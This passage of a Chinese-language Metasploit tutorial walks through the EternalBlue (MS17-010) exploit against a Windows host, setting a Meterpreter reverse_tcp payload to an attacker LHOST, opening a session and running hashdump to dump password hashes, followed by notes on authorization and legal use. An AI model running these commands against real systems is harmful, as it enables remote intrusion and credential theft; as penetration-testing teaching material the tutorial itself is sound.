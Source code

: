4. **显示模块信息**

   ```bash
   msf exploit(ms17_010_eternalblue) > info
   ```

5. **设置目标参数**

   ```bash
   msf exploit(ms17_010_eternalblue) > set RHOSTS 192.168.1.100
   msf exploit(ms17_010_eternalblue) > set PAYLOAD windows/meterpreter/reverse_tcp
   ```

6. **设置有效载荷参数**

   ```bash
   msf exploit(ms17_010_eternalblue) > set LHOST 192.168.1.50
   msf exploit(ms17_010_eternalblue) > set LPORT 4444
   ```

7. **运行漏洞利用**

   ```bash
   msf exploit(ms17_010_eternalblue) > exploit
   ```

8. **进入会话**

   ```bash
   msf exploit(ms17_010_eternalblue) > sessions -i 1
   ```

9. **执行后渗透命令**

   ```bash
   meterpreter > sysinfo
   meterpreter > hashdump
   ```

10. **退出会话**

    ```bash
    meterpreter > exit
    ```

11. **退出 msfconsole**

    ```bash
    msf > exit
    ```

---

## 7. 注意事项

- **权限管理**：确保你有权对目标系统进行渗透测试，并遵守相关法律法规。
- **道德使用**：Metasploit 应仅用于合法的安全评估和渗透测试，不得用于非法活动。
- **更新框架**：定期更新 Metasploit Framework 以获取最新的漏洞利用模块和安全补丁。
